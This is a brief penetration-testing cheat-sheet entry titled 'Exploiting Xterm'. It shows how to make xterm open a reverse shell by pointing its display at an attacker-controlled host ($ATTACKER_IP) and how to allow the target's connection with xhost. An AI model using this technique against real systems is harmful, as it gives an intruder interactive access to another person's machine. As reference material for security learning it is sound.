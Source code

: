 # Exploiting Xterm

author:: Nathan Acks  
date:: 2022-07-11

Remember that the X11 protocol is network based! You can thus get xterm to act as a reverse shell by simply providing it with a display pointing to your machine.

```bash
xterm -display $ATTACKER_IP:$DISPLAY_NUM
```

The connection will be made back on port 6000 + `$DISPLAY_NUM` (so, 6000 for display 0, 6001 for display 1, etc.).

This, of course, requires a running X server on your end (for example, `Xnest :1`). You'll need to make sure that connections from the target system are authrized.

```bash
xhost +$TARGET_IP
```

* [slyth11907 / Cheatsheets](https://github.com/slyth11907/Cheatsheets)
